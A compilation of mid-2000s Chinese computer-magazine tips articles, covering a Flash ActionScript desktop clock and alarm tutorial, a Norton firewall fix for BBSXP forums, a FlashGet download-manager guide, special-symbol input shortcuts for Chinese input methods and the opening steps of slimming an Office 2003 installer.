第四步：点选最顶部的“时钟控制”图层的第1帧，然后单击下方的“动作-帧”面板标题条将其展开，在右侧代码编辑窗口内输入以下脚本代码：

```
mydate = new Date(); //创建一个日期对象
sec = mydate.getSeconds(); //获取当前时间的秒数
min = mydate.getMinutes(); //获取当前时间的分钟数
min_mc._rotation = min*6; //计算分针的旋转角度
sec_mc._rotation = sec*6; //计算秒针的旋转角度
hour = mydate.getHours(); //获取当前时间的小时数
if (hour>12) {
 hour = hour-12;
}
hour_mc._rotation = hour*30 + min/2; //计算时针的旋转角度
```

最后分别右击每个图层的第2帧，并选择“插入帧”命令，使每个层均为2帧。

第五步：单击右上角编辑条上的“场景1”切换到主场景中，按Ctrl + L组合键打开元件库面板，把在前面制作的“小时钟”影片剪辑拖放到舞台中央，选中这个影片剪辑，展开下方“动作 - 影片剪辑”面板，在其右侧的代码编辑窗口中输入以下代码：

```
on (press) { //press指鼠标左键按下
    this.startDrag(); //对象随光标移动
}
on (release) { //release指放开鼠标左键
    this.stopDrag(); //停止移动
}
```

第六步：保存好文件，此时按下“Ctrl + 回车”组合键，就可以欣赏到自己的小时钟作品了。将光标移到时钟上，光标将变成手的形状，按下鼠标左键拖动，小时钟将随之移动位置。执行“文件→发布设置”菜单命令，在发布设置对话框的“格式”选项卡中选中“Flash”项，然后单击下方的“发布”按钮生成SWF动画文件。通过第4期《打造超酷Flash桌面小时钟》一文中介绍的mProjector软件生成透明背景动画，一个可在桌面上随意移动的小时钟就制作好了。

### 定点报时 闻鸡起舞

现实生活中，小闹钟的定时闹铃功能非常实用，有了它的提醒，就不用每天担心上班（或上学）迟到了。下面让我们在Flash中制作一个可以定点报时的电子小闹钟，报时用的声音文件既可以是网上下载的好听的MP3歌曲，也可以是自己通过麦克风录制的声音片断。

1. 第一步：新建一个Flash文档。将主场景的第1层改名为“时间显示”，在这个层的第3帧处按快捷键F5新增空白帧，使这一层变成3个帧（以后主场景中的每层均设为3个帧）。点选第1帧，在工具箱中选择文本工具，然后在文本属性面板中选择文本类型为“动态文本”，设置好字体、大小及颜色等项，接着在舞台中偏上的地方画出一个动态文本框，并在属性面板右下角“变量”框中输入变量名:shijian_mc。
2. 第二步：单击时间轴上的“插入图层”按钮新增一个图层，命名为“时钟脚本”。用鼠标选中这个层的第2帧，按F6快捷键插入一个关键帧，打开动作面板，为这帧添加以下脚本：
   ```
   shijian = new Date();
   miao = shijian.getSeconds();
   fen = shijian.getMinutes();
   shi = shijian.getHours();
   shijian_mc = shi + ":" + fen + ":" + miao;
   ```
   再在这层的第3帧上按F6键插入关键帧，并为这帧添加脚本:
   ```
   gotoAndPlay(2);
   ```
3. 第三步：在主场景中新增一个层，命名为“闹时输入”。选择文本工具，在文本属性面板中选中“输入文本”类型，并在属性面板下面的按钮图标中按下“在文本周围显示边框”按钮，然后在第1帧中分别画出3个文本框，并分别将它们的变量名命名为“shi_in”、“fen_in”和“miao_in”。接着选择静态文本类型，再分别在以上三个文本框后面适当的位置输入“时”、“分”、“秒”文字，并在合适的位置输入“设置闹时”等提示性文字。
4. 第四步：新增一个层，命名为“闹时显示”。选择文本工具，在第1帧分别画出3个“动态文本”类型的文本框，并分别将它们的变量名命名为“shi_out”、“fen_out”、“miao_out”，再按前面的方法分别在3个动态文本框后面适当的位置上输入“时”、“分”、“秒”3个文字（时钟布局可参见图2）。
5. 第五步：新增一个层，命名为“闹时显示脚本”。在第1帧添加如下脚本，以初始化闹时显示的3个变量值（英文半角双引号""里面没有包括空格在内的任何字符，这表示为空值）:
   ```
   shi_out = "";
   fen_out = "";
   miao_out = "";
   ```
6. 第六步：新增一个层，命名为“按钮”。可通过点击菜单命令“窗口→其他面板→公用库→按钮”打开Flash的公用库面板，从里面选择一个按钮元件拖放到舞台上。如果你觉得没有合适的按钮，特别是觉得在桌面上放一个凸起来的按钮不太协调的话，那就自己动手做一个吧：按“Ctrl + F8”快捷键打开新建元件对话框，新建一个“按钮”类型元件；选中“弹起”帧，在舞台中输入红色的文字“设置确定”；再选中“指针经过”帧，按F6快捷键插入关键帧，选中这帧的文字，在属性面板中将文字的颜色改成绿色；最后再选中“按下”帧，按F6插入关键帧，选中这帧的文字，在文字属性面板中将字体变小一些。切换回主场景，按Ctrl + L快捷键打开元件库面板，将刚才制作的按钮元件拖放到舞台中，点选这个按钮之后打开动作面板，为其添加以下脚本:
   ```
   on (press) {
       shi_out = shi_in;
       fen_out = fen_in;
       miao_out = miao_in;
   }
   ```



以上脚本的含义是：单击该按钮时，将在“闹时设置”文本框里输入的变量值赋值给“闹时显示”中的变量。

7. 第七步：点击菜单命令“文件→导入→导入到库”，将准备好的音乐文件（MP3或WAV）导入到元件库。新建一个名为“闹铃动画”的影片剪辑元件，第1帧保留为空白关键帧，在第2帧按F6键插入关键帧，按Ctrl + L键打开元件库面板将刚才导入的音乐拖放到这帧上（也可直接从帧属性面板中“声音”项的下拉列表中选中要加入到这帧的音乐文件）。再在第10帧左右按F5快捷键新建一个空白帧（根据声音文件的实际长短而定）。然后再新增一个层，在新增层的第1帧添加以下脚本:
   ```
   stop();
   stopAllSounds();
   ```
   在这层的最后一帧按F6插入关键帧，并添加脚本:
   ```
   gotoAndPlay(3);
   ```
8. 第八步：在编辑条上单击“场景1”回到主场景中，新增一个层，命名为“闹铃动画”，从元件库面板中将前面制作的“闹铃动画”影片剪辑拖放到舞台上，选中它并打开动作面板，为其添加如下脚本:
   ```
   onClipEvent (enterFrame) {
       if ((_root.shi == _root.shi_out) && (_root.fen == _root.fen_out) && (_root.miao == _root.miao_out)) {
           this.play();
           //如果系统当前时间与设置的闹铃时间的时、分、秒同时相等，则这个闹铃动画开始播放
       }
   }
   ```

好啦，一个能设置闹时、有闹铃的电子闹钟就做成了。执行上节中第六步操作生成SWF动画文件，并通过mProjector生成透明背景的桌面小闹钟即可。有兴趣的读者，可借鉴上节内容，为它增加好看的界面，并给它加上可拖动功能。

（江西 严创明）

## 别把我当广告——简单设置解决NIS与BBSXP不兼容问题

BBSXP论坛系统凭借其出色的性能和友好的界面，赢得了不少支持者，网上使用BBSXP系统建立论坛的人也不在少数。最近上了几个使用BBSXP系统构建的论坛，发现了一个奇怪现象——网页不能正常显示出来（见图1）。起初怀疑是浏览器问题，对IE进行了一番设置，甚至把浏览器换成Firefox，问题依旧得不到解决。初步判断问题是其他设置或是其他程序所引起的，由于系统是新装的，错误设置应该不会有，遂对有嫌疑的程序一一进行检查。最值得怀疑的就是能够对浏览器进行监控的防火墙，把Norton Internet Security（以下简称NIS）禁用掉，问题得到解决，于是肯定是防火墙设置错误所造成的。



于是对NIS防火墙进行了一番操作，终于发现原来是它禁止广告的一个BUG。解决方法步骤如下：打开防火墙的控制面板单击“禁止广告”，在右边的选项中单击“配置”，对禁止广告功能进行配置，即去除“打开禁止广告”项的勾选（见图2），一切恢复正常。



# FlashGet 超越下载极限

使用IE默认的下载功能，不但速度慢，而且下载过程中如果遇到意外故障掉线了，就会前功尽弃，还得从头再重新下载。而FlashGet(网际快车)则具有断点续传功能，它会从中断的地方继续开始下载，不让前面的工作白费。FlashGet还具有多线程下载、支持镜像等功能，可让下载速度提高100%到500%。新版FlashGet还增加了对微软Windows Media Player播放器的MMS协议以及RealOne播放器的RTSP协议支持，可以方便下载各种流媒体影视节目。更多实用功能，请继续阅读下文……

## 实例1：随叫随到的网际快车

- 第一步：首先到http://www.onlinedown.net/soft/15.htm下载最新的网际快车FlashGet 1.65简体中文版。双击下载回来的fg165.exe文件运行安装程序，单击Next(下一步)进入协议窗口，再单击“I Agree(我同意)”，然后一路单击“Next”，最后单击“Finish(完成)”即可。
- 如果是升级或重装FlashGet，最好安装到原有的FlashGet目录中，这样以前的下载任务等信息就不会丢失了，未完成的下载任务还能继续下载。
- 第二步：FlashGet默认安装后，会在系统分区(一般为C盘)创建Downloads目录，并且将下载的文件都保存在这里，日积月累，下载的文件会很快侵蚀掉宝贵的系统分区，这样的后果便是电脑会越来越慢，并且经常会出现一些莫名其妙的故障。所以，在安装完成后，最好马上更换下载文件保存位置。打开FlashGet，在其主界面左侧窗格中分别右击“正在下载”、“已下载”项并选择“属性”，接着将“默认的目录”由“C:\Downloads”改为其他分区的文件夹，比如“D:\Downloads”。
- 第三步：现在让我们开始第一个下载任务。打开http://nj.onlinedown.net/soft/5306.htm，这里是SnagIt 7.2.2的下载网页(见图1)，直接单击下载链接即可调出FlashGet的“添加新的下载任务”窗口，下载地址、文件保存的路径、文件名等参数都已自动设置好了，单击“确定”按钮就可以进入FlashGet主界面并开始下载了。



其实只要启动了FlashGet，它便会时时监视Windows剪贴板，当复制一个下载链接到剪贴板时，FlashGet也会自动弹出“添加新的下载任务”窗口，单击“确定”按钮即可下载。

小提示 不简单的“添加新的下载任务”

- ★“重命名”：许多软件的下载文件名称并没有使用软件本身的名字，特别是在下载MP3歌曲时，文件名常常是数字或是拼音缩写，这样的文件名为日后管理带来很多麻烦，所以建议你在下载某个软件或MP3前，先在网页上复制它的名字，然后将其填写到“重命名”文本框中，当然最好不要修改文件扩展名。
- ★“文件分成 同时下载”：FlashGet能将一个文件分成最多10个线程同时下载，一般情况下线程越多，下载速度越快，但有时多了反而会降低速度，所以建议使用3～5个线程即可。
- ★“注释”：强烈建议大家在下载前将所下载文件的用途添加到注释中，以便日后更好地管理文件。如果想知道它的妙用请参考本刊2005年第2期《FlashGet三大超精彩秘技》一文中的实例3。

## 实例2：擦亮FlashGet的眼睛

在FlashGet主界面中执行菜单命令“工具→选项→监视”调出监视窗口，在这里进行设置可以使FlashGet下载功能更好用。

1. 不明地址也能下载 目前不少网站提供的下载链接都是重定向的，一般中间会包含“?”，这种下载链接经常不是指向需要下载的文件，而是指向具体提供下载的一个页面。如果勾选了“宽松的匹配方式”选项，则点击这类不明地址的下载链接时，FlashGet将会分析该页面文件以获得实际的下载链接。
2. 监视更多的文件类型 单击ZIP、RAR、EXE等文件链接时，可以直接调出FlashGet进行下载，但是单击PDF、DOC等文件链接时，则可能直接在IE浏览器中打开文档，速度非常慢。可以用PDF、DOC的形式将文件的后缀名添加到“监视的文件类型”文本框中，以后，这些文件类型的下载链接也可以直接调用FlashGet了。
3. 让FlashGet在需要的时候再出现 勾选“使用ALT键”项后，单击下载链接的同时必须按ALT键，才能调出FlashGet，否则将跳过FlashGet直接使用浏览器自身的下载功能。



第四步：启动FlashGet后，它会在屏幕上显示一个悬浮窗口，里面动态显示下载进度(或其他状态)，双击这个悬浮窗口可以显示或隐藏FlashGet主窗口(见图2)。悬浮窗口可随意拖动到屏幕的任意位置，这样可避免影响桌面上其他程序的运行。悬浮窗口还有其他一些妙用，比如按住网页上相应的下载链接不放手，然后将它拖到FlashGet的悬浮窗口上，还可以打开“添加新的下载任务”窗口进行下载。

第五步：下载完成后，可单击FlashGet主窗口左侧的“已下载”文件夹，在右侧列表中就可以看到下载回来的文件了。双击下载文件，如果它是程序文件，将直接运行；如果是MP3、BMP等音乐、图形文件，将自动调用相应的程序打开它，就像在资源管理器里的操作一样。点选某一下载文件后，按下“Ctrl+回车”键，还可以打开下载文件所在文件夹。

小提示

- ★许多基于IE内核的第三方浏览器，单击下载链接时不能直接调用FlashGet，这时可以右击下载链接，从右键菜单中选择“使用网际快车下载”项，即可调出FlashGet下载。
- ★在IE工具栏的空白处单击鼠标右键，从弹出菜单中选中“FlashGet Bar”项，即可显示出FlashGet的IE工具条，通过它，就可以直接查看下载的情况，并可以控制FlashGet，这对一些禁止鼠标右键菜单的站点很有效。

## 实例3：批量下载网页中的所有文件

- 第一步：在网页中有大量同一类型的文件需要下载(比如有多首MP3音乐文件的链接)，可以在网页的空白处单击鼠标右键，然后从右键菜单中选择“使用网际快车下载全部链接”，这时会弹出“选择要下载的URL”对话框。
- 第二步：单击其上的“选择特定”按钮，在打开的对话框右侧的“文件扩展名”中勾选要下载的文件类型(如.mp3)，连续确定后就可轻松搞定了。你还可以点击“选项”按钮，在其中选择你要“标记缺省的文件类型”，这时你可以选择“.mp3 .wav .mid”项，就可以快速下载此网页中的所有声音文件。
- 第三步：批量下载文件时，FlashGet首先会显示一个“其他的文件是否使用同样的设置？”的提示框，选中提示框中的“不要再询问”项，单击“是”按钮，即可下载所有选中的文件了。

Just Do It

- ★使用通配符批量下载 假设http://www.cfan.com.cn网页上有music01.mp3到music99.mp3共99个歌曲文件，可先执行“任务→添加成批任务”命令，在打开的对话框的“URL”中输入http://www.cfan.com.cn/music*.mp3，选择“从1到100”，“通配符长度”设置为3，确定后即可批量下载了。
- ★巧用“导入列表”实现批量下载 经常在各种BBS站点中看到提供音乐专辑或大批量文件下载的帖子，不过它们往往只提供了需要的地址却没有链接，单击这些地址时并不可以下载。这时可按下Ctrl+C键全选网页内容，并粘贴到记事本中将其保存为后缀名为.lst(如:music.lst)的文件。在FlashGet主界面中选择“文件→导入列表”命令导入刚刚建立的LST文件，则网页中的所有下载地址都跑到FlashGet的下载列表中了。

## 实例4：实时影视照“当”不误

现在网络影视是越来越火；影视资源也逐渐增多，而这些电影或电视节目多使用MMS协议或RTSP协议进行传输通讯，FlashGet可以帮我们轻松“录制”这些影视资源。下面以下载CCTV4节目为例进行介绍。

- 第一步：首先必须得到CCTV4的URL，即提供视频的网址。如果你可以在IE浏览器中用Windows Media Player观看CCTV4的节目，则可以在屏幕中影视节目上方右击，选择“属性”，在“文件”标签下的“位置”中就可得到它的URL:mms://winmedia.cctv.com.cn/live。
- 小提示 CCTV新闻频道:mms://live.cctv.com/live1 CCTV英文频道:mms://live.cctv.com/live3
- 第二步：拖动鼠标选中此URL，按下Ctrl+C键复制链接地址，然后右键单击FlashGet悬浮窗口，从右键菜单中选择“粘贴URL”项，FlashGet就会打开新建下载任务对话框，选择好保存目录后直接单击“确定”，就能下载CCTV4的影视节目了。双击下载完毕的流媒体文件，即可调用相应播放器观看了。

## 实例5：巧设“计划”，精彩不错过

星期天全周, 单击“确定”关闭对话框(见图3)。



第二步: 执行“任务→新建下载任务”菜单命令或直接按下F4键, 在网址中输入CCTV4视频网址: mms://winmedia.cctv.com.cn/live, 最重要的是将下面的“开始”项设为“计划”, 最后按下“确定”按钮。

第三步: 勾选“工具→完成后关机”, 这样, 只要保证每天早7点时, 你的FlashGet是打开状态, 它就会自动为你下载CCTV4的《简明新闻》, 下载完毕后就自动关机。

## 实例6: 兼职离线浏览器

FlashGet的“站点资源探索器”就像一个离线浏览器, 可以快速列出HTTP和FTP站点的目录结构及文件列表, 并根据选择, 将需要的网页、资料全部下载到硬盘中, 等有时间再慢慢研究。当然, 它跟专业的离线浏览器软件比较起来, 相差还很多, 比如不能搜索二级、三级页面中的内容。下面以下载“电脑爱好者”的网站www.cfan.com.cn为例, 练习一下站点资源探索器的使用。

第一步: 启动FlashGet, 在其主窗口中点击菜单命令“工具→站点资源探索器”(或直接按快捷键F7)打开站点资源探索器。

第二步: 在地址栏中输入“电脑爱好者”网站的完整URL地址(http://www.cfan.com.cn)并回车, 资源探索器便会快速分析出网站的结构来, 并在窗口左侧列出网站的结构, 单击某一文件夹, 其下所有的文件便会显示在窗口右侧。

第三步: 现在就可以好好研究一下这个网站的文件架构了, 如果在其中发现了什么好的素材, 双击它下载便可。配合Ctrl或Shift键可以选择多个文件, 然后右击鼠标, 从右键菜单中选择“下载”项打开添加新的任务窗口, 单击“确定”后将会弹出“其他的文件是否使用同样设置”提示框, 单击“是”即可。使用此模式还可能会发现一些站长隐藏的文件, 主要是未在主页中做相关链接的网页或软件。

## 实例7: 管好你的下载文件

疯狂下载后, “已下载”文件夹中的文件会杂乱不堪, 让人看了就头大。FlashGet已默认创建了“软件”、“游戏”、“驱动程序”、“MP3”四个类别, 用鼠标将下载文件直接拖到相应的类别中就可以实现分类管理。其实, 下载文件时, 在“添加新的下载任务”窗口中, 单击“类别”下拉按钮, 从下拉列表中选择一个类别, 文件下载完成后就会自动转到该类别中, 不用事后再手工拖动, 非常方便。如果下载的电影文件较多, 最好再创建一个名为“电影”的新类别, 操作方法为: 右击“已下载”文件夹, 从弹出的菜单中选择“新建类别”选项, 然后输入新建的类别名称“电影”, 单击“...”按钮设置文件保存目录, 确定即可。以后再下载电影的时候, 就可以将类别指定为“电影”了。

## 实例8: FlashGet也玩远程遥控

如果家里的网络没有公司里的网络快, 在家浏览网页得到一个大文件的下载地址时, 可以遥控公司里的电脑让它自动下载此文件, 第二天一上班就可以用上了。若想让FlashGet完成远程遥控功能, 还需要FlashCheck这款小软件的配合, FlashCheck的下载地址为:http://www.amazesoft.com/fc057b.exe第一步: 在公司的电脑上安装并运行FlashCheck, 这时任务栏托盘中会多出一个图标, 右击此图标, 选择“个人喜好设置”命令, 在“账号设置”标签中添加你常用的邮箱。第二步: 再单击“其它选项”标签, 设置定时检查的时间间隔, 勾选“忽略错误”、“自动运行”、“启动时自动进入检查状态”、“启用下载代理”等选项, 并设置自己的邮件接收程序, 你可以选用Foxmail、OE等任意邮件客户端, 最后按下“确定”按钮。第三步: 以下载http://zj.onlinedown.net:88/down/snagit.exe为例, 只要给刚才设定的被检测邮箱发送一封主题为“%FlashGet% -dl http://zj.onlinedown.net:88/down/snagit.exe”的邮件, 邮件内容无所谓, 空白也可。FlashCheck检测到这个新邮件后, 就会自动调用FlashGet下载指定地址的文件了。

(河北 闫艳力 北京 一页)

# 特殊符号！我要轻松输入你

平时经常要输入一些像“★”、“√”之类的特殊符号, 或是“壹万贰仟叁佰肆拾伍元”之类的大写金额, 很多朋友不知道该如何通过常用输入法快速输入, 另外在使用输入法过程中, 也时常会出现用五笔输入时有些字不会拆分, 用拼音输入时有些字不会读音的情况, 这时又该如何来快速输入这些疑难字呢? 我们把大家常用的输入法汇集在一起, 介绍一下如何解决这些常见的特殊输入问题。同时对于大家选择适合自己的输入法也是一个很好的参考。

> **小提示** 很多朋友在使用输入法时, 会发现一些文字明明拆分或拼音都输入正确了, 但就是打不出需要的字, 这时你需要检查一下输入法的设置, 确认已经打开“GBK”编码, 通常为了减少重码, 输入法默认使用的是GB2312编码, 这种情况下只能输入6763个常用汉字。

## 五笔输入法

### 一、极点中文

#### 1. 输入特殊符号

首先可以按下Shift + Esc组合键快速调出软键盘, 按住Shift键后按动Esc键, 就会在多个软键盘之间切换, 按Esc键即可关闭软键盘。

| 编码 | 描述 |
|------|------|
| zzbd | 标点符号 |
| zzpy | 拼音符号 |
| zzts | 特殊符号 |
| zzsx | 数学符号 |
| zzdw | 单位符号 |
| zzjt 或 zzj | 箭头符号 |
| zzys 或 zzy | 圆圈数字 |
| zzpp | 偏旁 |

例如要输入“★”符号, 则可以键入“zzts”, 然后根据提示条中的显示按“6”即可使符号上屏(见图1)。


> **小提示** 我们可以在极点中文提示条上右击, 选择菜单“管理工具→用户码表”来对默认的特殊符号编码进行修改, 同时也可以自行添加新的编码。

#### 2. 输入中文日期

在极点中文中输入中文日期是非常方便的, 其编码格式为分号“;”加上“XXXnXXyXXr”, 其中的X分别代表要输入的年月日数字。例如要输入“二〇〇五年四月一日”, 则键入编码“;2005n4y1r”, 这时在提示条中会显示出数字日期和中文日期两种格式, 按下数字“2”即可输入中文日期了(见图2)。


> **小提示** 要使用该功能, 需要在极点中文的基本设置中选择“快捷英文热键”为“分号(;)”才行, 不过这样设置后, 输入中文分号“;”就需要按两下“;”键了。

如果想快速输入当前日期, 那就更方便了, 键入编码“znyr”可以输入当前年月日, 键入编码“year”可以输入当前年份, 键入编码“date”可以输入当前日期, 键入编码“time”可以输入当前时间, 键入编码“now”可以输入当前精确时间, 键入编码“week”可以输入当前星期几。

#### 3. 输入大写数字和金额

极点中文的大写数字编码规格是分号“;”加上数字序列, 例如当键入“;12345”时, 提示条中会显示三种大写数字格式(见图3), 选择需要使用的格式即可, 按“回车”键选择第一项, 按右Shift键或“Shift+回车”键选择第二项, 按左Shift键选择第三项。如果要输入带元、角、分形式的大写金额, 则可以在输入数字后再按一下分号“;”上屏即可。例如键入编码“;12345.67;”, 就可以输入“壹万贰仟叁佰肆拾伍元陆角柒分”。


### 二、万能五笔

#### 1. 菜单选择

在万能五笔提示条右键菜单中选择“输入特殊符号”, 可以看到特殊符号类型列表(见图4), 选择要输入的特殊符号类型后, 在万能五笔提示条中就会显示出该类型中的特殊符号列表, 用数字键选择要输入的符号即可, 用“[”和“]”键可以前后翻页查找类别中的其他特殊符号。



> **小提示** 你还可以直接用快捷键打开某类特殊符号, 在菜单中的特殊符号类型后面提示有相应热键, 例如要快速输入数字序号, 按下Ctrl + 2组合键即可。

#### 2. 自定义编码输入

万能五笔提供了特殊符号自定义编码功能, 利用其自造词功能即可完成, 例如想用“tsdh”来输入“√”符号, 则可以先利用前面介绍的方法输入“√”, 然后选中该符号, 在万能五笔提示条中单击“词”按钮, 并输入定义的符号编码“tsdh”即可(见图5), 这里建议取消“简拼”和“全拼”编码选项, 以避免重码。

### 三、智能五笔

#### 1. 特殊符号输入

智能五笔首创了分号“；”输入特殊符号的编码方式，使得特殊符号输入不仅方便，而且不会与汉字输入编码重码，具体编码可以查看http://www.znwb.com/help/chelp414.htm网页中的表4 - 1。例如想输入“√”符号，只需要键入“;dh”即可看到提示条中的显示，按下空格键即可上屏。

如果对智能五笔默认的特殊符号编码不太习惯，也可自行修改这些编码，方法是在提示条右键菜单中选择“辅助功能→定义字符→自定义符号”项，打开自定义符号管理对话框（见图6），其中每行定义一个符号的编码，根据需要修改左边的符号编码即可，当然，也可以新增符号编码，编码（不包含分号）和符号之间用空格隔开即可，要注意编码为一至二码，不能是三码或四码。







#### 2. 疑难字的输入

对于五笔输入法来说，像“凹凸”之类的字是很难记住编码的，虽然智能五笔可以使用右Ctrl键切换到拼音状态进行辅助输入，但毕竟麻烦了一些。为此，智能五笔还提供了一种简便输入这些疑难字的方法，就是连按四下“Z”键，这时在提示条中会显示出疑难字列表（见图7），例如按下数字“2”即可输入“凹”字。

#### 3. 大写金额输入

在智能五笔中输入大写金额的编码规则为“分号键+引号键+数字键+小数点+数字键”。例如，当你要输入“壹万贰仟叁佰肆拾伍元陆角柒分”时，可以先按一下分号键，再按一下引号键（分号键右边的键），键入数字“12345.67”，然后按一下空格键即可。

### 四、五笔加加

五笔加加默认对一些常用的特殊符号进行了编码，其编码规则是该符号中文名称对应的五笔编码。例如要输入“√”符号，只需要输入其中文名称“对勾”的五笔编码“cfqc”，即可在提示条中看到提示，由于有重码，按下数字“2”即可输入。具体编码与特殊符号对应列表可以打开C:\Program Files\WBjj目录中的“wbjj_biaod.htm”文件进行查看。

此外，对于一些像“ⅠⅡⅢⅣ”、“①②③④⑤”之类的系列符号，五笔加加则规定了另外的简便输入规则，首先按“Z”键，进入系列符号输入状态，然后输入系列符号中文名称对应的五笔编码，即可从提示条中进行选择输入。例如要输入“Ⅰ”，就可以先输入“Z”，再输入“大写罗马”的五笔编码“dplc”，然后按数字“3”选择即可（见图8）。系列符号的编码对应关系也可以打开“wbjj_biaod.htm”文件查看。


## 拼音输入法

### 1. 拼音加加

拼音加加在特殊符号输入上和五笔加加具有许多相似之处，同样采用内置编码的方式来输入特殊符号，但其编码规则是特殊符号中文名称的拼音（即拼音首字母），例如要输入符号“√”，直接输入其中文名称“对勾”的拼音编码“d g”，然后根据提示条中的提示按数字“3”即可上屏（见图9）。

具体编码与符号的对应列表可以打开C:\Program Files\JJOL\IME目录中的“拼音加加符号列表”文件“pyjj_biaod.htm”进行查看。


### 2. 中文数字输入

直接输入阿拉伯数字，例如“12345”，就可以从提示条中看到两种常用的中文数字格式，按下需要使用的格式序号即可。

### 3. 中文日期输入

直接输入“98-2-3”或者“98/2/3”格式的数字，拼音加加就会在提示条中显示出两种常用的日期格式（见图10），输入序号即可上屏。



### 4. 辅助输入

当输入文稿时，如果遇到不认识的字，可以按下字母“i”进入临时笔画输入法，然后即可按照该字的笔画书写顺序进行输入，这里的笔画输入法和手机上使用的笔画输入法类似，只不过是键位定义有些区别，拼音加加的五个基本笔画横、竖、撇、点（捺）、折分别用其拼音首字母来表示，即h、s、p、d(n)、z。例如，“叒”字可能大部分人都不知道它的读音，但我们依然可以在拼音加加中正确输入，编码是“ipzzn”，然后根据提示按数字“3”即可，而且文字后面会告诉你该字的拼音（见图11）。


### 二、紫光拼音

#### 1. 特殊符号输入

在紫光拼音中可以使用软键盘来输入各种特殊符号，它提供有13类软键盘符号，使用时右键单击输入法提示条中的软键盘图标，然后选择符号类型即可打开软键盘（见图12），点击需要输入的符号即可。

除了使用软键盘输入外，紫光拼音还允许使用特定编码输入一些常用的特殊符号，在提示条上单击鼠标右键，选择“属性设置”，然后打开“自定义→特殊符号和短语”，即可看到特殊符号的编码，当然我们也可以自行输入或修改编码，格式为“英文编码=特殊符号”，例如添加一行“dhao=√”（见图13），然后单击“确定”按钮保存设置，以后就可以用“dhao”来输入“√”了。



#### 2. 中文数字输入

在紫光拼音中按下字母“i”和“u”可以临时输入中文数字和常用单位，在输入时，紫光拼音要求使用特定的字母来代表数字的单位，具体如下：

| 字母 | 单位 | 字母 | 单位 | 字母 | 单位 |
|------|------|------|------|------|------|
| g    | 个   | s    | 十/拾 | b    | 百/佰 |
| q    | 千/仟 | w    | 万   | z    | 兆   |
| n    | 年   | y    | 月   | r    | 日   |
| d    | 点   | f    | 分   | m    | 秒   |
| v    | 元   | j    | 角   |      |      |

其中按下字母“i”后可以临时切换到中文数字小写形式输入状态（一、二、三等），例如输入“i2005n4y1r”可以输入“二〇〇五年四月一日”，而按下“u”后可以临时切换到中文数字的大写形式输入状态（壹、贰、参等），也就是大写货币金额，例如输入“u8w7q6b3s1v”就可以输入“捌万柒仟陆佰叁拾壹元”。

### 三、微软拼音

微软拼音的特殊符号输入相对比较麻烦一些，只能使用软键盘进行输入，这里同时也提示一下大家，对于系统自带的其他输入法以及一些标准接口输入法，使用软键盘是通用的特殊符号输入方式。

### 四、智能狂拼

#### 1. 特殊符号输入

智能狂拼可以很方便地输入偏旁部首以及计量单位等特殊符号，其基本输入方法是先按“Ctrl + [”组合键进入特殊符号输入状态，然后按照下面的特殊符号类型编码进行输入，其编码规则是取其中文名称前两个字的声母。

| 类型       | 编码 | 类型       | 编码 | 类型       | 编码 |
|------------|------|------------|------|------------|------|
| 部首       | bs   | 数学符号   | sx   | 数字序号   | xh   |
| 特殊符号   | fh   | 计量单位   | jl   | 标点符号   | bd   |
| 箭头符号   | jt   | 希腊字母   | xl   | 日文字母   | rw   |
| 罗马字母   | lm   | 拼音符号   | py   | 注音符号   | zy   |
| 天干地支   | tg   | 俄文字母   | ew   |            |      |

例如要输入数学符号中的“√”，就可以按下“Ctrl + [”后，再按“sx”，这时在提示条中会显示出数学符号列表，不过当前显示并没有出现“√”，需要翻页才能出现，这里有个技巧，你只要继续输入特殊符号读音的第一个声母，就可以缩小提示条中显示的符号范围，这里我们再输入“d”，就可以在提示条中看到“√”了。

#### 2. 疑难字和偏旁部首输入

对于不认识或不能正确发音的字，智能狂拼也提供了笔画辅助输入方式，其五个基本笔画对应键位和拼音加加完全一样，输入方式则需要先按“Ctrl + [”组合键进入特殊符号状态，然后即可按照该字的笔画书写顺序输入编码，利用这个方法也可以直接输入偏旁部首的笔画顺序，这要比使用前面的“bs”再选择部首的方法准确一些。



极限瘦身 Office 2003 安装包从600MB到60MB!

软件越做越大，功能越来越丰富，但对于普通用户，许多功能根本用不到。所以，很多电脑爱好者开始研究精简软件的方法——保留大多数常用功能，去掉绝大多数极少用的功能模块，这样可以极大地减少软件安装包体积。比如，一张600MB光盘大小的Windows XP，里面有些功能（比如ATM模块）对于大多数用户是多余的，于是出现了像nlite、XPlite等精简程序。对于常用的Office 2003，同样有很多功能我们平时用不到，比如.NET可编程性支持等，如果可以像精简Windows XP那样，去掉Office中不太常用的组件，就能打造一张Windows XP + Office 2003的安装光盘。下面我就来讲解如何将600MB大小的Office 2003安装包精简，但又保留了你所需要的功能，笔者以Office 2003简体中文版为例来说明，如果是Office 2000/XP，过程基本一样，只是集成的补丁不同。

简单步骤列表

-   第一步：准备工具：Office补丁、ORK工具、编辑MSI文件的ORCA及Filemon工具；
-   第二步：使用管理员模式安装Office；
-   第三步：集成Office的SP1补丁；
-   第四步：使用ORK工具中的自定义安装工具对Office软件进行定制，仅保留常用功能，得到MST文件；
-   第五步：用ORCA修改MSI，把MST文件信息写入MSI中；
-   第六步：使用Filemon及Excel，获得安装文件列表；
-   第七步：得到精简后的安装文件；
-   第八步：测试。

准备工具

1.  Office 2003的SP1补丁：http://download.microsoft.com/download/1/8/6/186a3d52-5786-4903-a5e6-d2daf6cee5ea/Office2003SP1-kb842532-fullfile-chs.exe。
2.  Office 2003的ORK工具：http://download.microsoft.com/download/0/e/d/0eda9ae6-f5c9-44be-98c7-ccc3016a296a/ork.exe。如果是Office XP，可以在它的光盘上找到适合的ORK工具。
3.  MSI文件编辑器ORCA汉化版：http://www.newhua.com/cfan/200510/orca.rar。
4.  文件监视工具Filemon：http://nj.onlinedown.net/soft/8986.htm。

安装 Office 2003

在安装时Office 2003时，要使用管理员模式进行安装，即打开“命令提示符”窗口，进入光盘根目录输入setup /a，按照向导提示输入序列号信息，并设置好安装路径，如D:\Office。注意不要把Office的目录选择在Windows系统所在分区，这个要求是方便最后使用Filemon。

集成 Office 的 SP1 补丁

第一步：用WinRAR打开下载的SP1补丁，把SP1补丁解压缩到D:\Office\sp1的目录下（也可以参考http://support.microsoft.com/?kbid=197147，不使用WinRAR，直接解压缩）。
第二步：打开“命令提示符”窗口，进入到D:\Office目录，输入“msiexec /p SP1\MAINSP1ff.msp /a pro11.msi SHORTFILENAMES=true /qb”（不含引号），回车后会出现收集信息画面，开始集成SP1。

